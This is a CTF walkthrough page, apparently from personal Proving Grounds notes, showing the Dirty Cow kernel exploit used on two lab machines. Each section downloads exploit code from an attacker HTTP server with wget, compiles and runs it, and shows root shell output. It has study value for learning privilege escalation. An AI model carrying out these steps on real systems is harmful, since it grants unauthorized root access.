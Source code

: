 ```yaml
---
layout: default
title: Dirty Cow
parent: Kernel Exploits
nav_order: 1
---
```


# Dirty Cow

---

## 4.4.0-31-generic (x86)

The Linux version is 4.4.0-31-generic which should be vulnerable to the _dirty cow_ kernel exploit.

![linpeas](../../../../assets/images/ctfs/proving_grounds/lampiao/linpeas.png)

[Dirty Cow Exploit Raw Code](https://www.exploit-db.com/exploits/40847)

Transfer the exploit to the taget machine.

```bash
tiago@lampiao:/tmp$ wget http://192.168.45.217:8000/40847.cpp
wget http://192.168.45.217:8000/40847.cpp
--2023-11-07 00:52:23--  http://192.168.45.217:8000/40847.cpp
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [text/x-c++src]
Saving to: ‘40847.cpp’

100%[======================================>] 10,531      --.-K/s   in 0.003s

2023-11-07 00:52:23 (3.22 MB/s) - ‘40847.cpp’ saved [10531/10531]

```

Compile the exploit using _g++_

```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
```

Now we just compile and execute the exploit and get root access.

```bash
tiago@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
<ll -pedantic -O2 -std=c++11 -pthread -o dirtycow2 40847.cpp -lutil
tiago@lampiao:/tmp$ ls
ls
40847.cpp  dirtycow2  l  vmware-root
tiago@lampiao:/tmp$ ./dirtycow2
./dirtycow2
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
tiago@lampiao:/tmp$ su root
su root
Password: dirtyCowFun

root@lampiao:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)

```

## 3.2.0-4-amd64 (x64)

```bash
www-data@driftingblues:/etc$ uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux

```

3.2.0-4 is susceptible to the Dirty Cow kernel exploit.

[rverton cowroot.c github raw code](https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c)

```bash
www-data@driftingblues:/tmp$ wget http://192.168.45.217:8000/cowroot.c
--2023-11-10 13:30:30--  http://192.168.45.217:8000/cowroot.c
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4688 (4.6K) [text/x-csrc]
Saving to: `cowroot.c'

100%[==============================================================>] 4,688       --.-K/s   in 0s

2023-11-10 13:30:30 (9.28 MB/s) - `cowroot.c' saved [4688/4688]

# Compile the exploit locally on target
www-data@driftingblues:/tmp$ gcc cowroot.c -o cowroot -pthread

# Run exploit
www-data@driftingblues:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 51096
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@driftingblues:/tmp# whoami
root
```

